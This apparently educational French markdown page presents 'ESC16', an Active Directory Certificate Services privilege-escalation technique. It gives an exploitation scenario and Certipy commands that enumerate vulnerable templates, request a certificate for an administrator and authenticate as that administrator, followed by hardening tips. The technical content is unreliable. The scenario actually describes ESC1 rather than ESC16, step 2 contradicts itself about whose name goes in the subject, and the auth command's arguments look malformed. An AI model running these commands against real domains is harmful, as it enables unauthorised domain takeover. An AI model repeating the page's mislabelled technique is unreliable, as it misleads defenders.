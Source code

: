 ```yaml
---
title: ESC16
date: '2025-07-15'
draft: false
---
```


# 🛡️ ESC16

## Qu'est-ce que la vulnérabilité ESC16 ?

**ESC16** est une vulnérabilité liée à l'Active Directory Certificate Services (AD CS) permettant à un attaquant d'obtenir des privilèges élevés en abusant de mauvaises configurations sur l'autorité de certification.

## 🎯 Objectifs pédagogiques

- Comprendre le fonctionnement d'AD CS et des certificats dans AD
- Savoir comment l'attaque ESC16 est réalisée
- Identifier les risques liés à la délégation de droits sur les templates de certificats

## 📋 Exemples de vulnérabilités et exploitation

### Vulnérabilités courantes

- **Templates de certificats mal configurés** : Permettent à des utilisateurs non privilégiés de demander des certificats avec des droits élevés.
- **Extensions dangereuses activées** : Possibilité de demander des certificats pour n'importe quel utilisateur (ESC1, ESC2, ESC8, ESC13, ESC16, etc.).

### Scénario d'exploitation 

1. **Identification d'un template vulnérable** :
   - L'attaquant repère un template de certificat qui permet l'inscription par des utilisateurs standards et l'option "ENROLLEE SUPPLIES SUBJECT".
2. **Demande d'un certificat d'administrateur** :
   - L'attaquant demande un certificat pour un compte administrateur en spécifiant son propre nom d'utilisateur dans le champ subject.
3. **Utilisation du certificat pour s'authentifier** :
   - L'attaquant utilise le certificat obtenu pour s'authentifier en tant qu'administrateur.

### Commandes d'exploitation avec Certipy

```bash
# Enumérer les templates vulnérables
certipy-ad find -u user -p 'Password123!' -dc-ip 10.10.10.2 -domain ad.local

# Demander un certificat pour un compte admin
certipy-ad req -u user -p 'Password123!' -ca ca.ad.local -template vuln_template -upn admin@ad.local -dc-ip 10.10.10.2

# Utiliser le certificat pour s'authentifier
certipy-ad auth -u admin@ad.local -p '' -key admin.pfx -dc-ip 10.10.10.2
```

## 🛡️ Bonnes pratiques

- Restreindre les droits d'inscription sur les templates de certificats
- Désactiver les extensions dangereuses sur les templates
- Auditer régulièrement la configuration d'AD CS

## 📚 Ressources utiles

- [HackTricks - ESC16](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-cs-esc1-esc13#esc16)
- [Certipy - ESC16](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
- [Microsoft - AD CS](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-cs/)

---

_Dernière mise à jour : 15 juillet 2025_
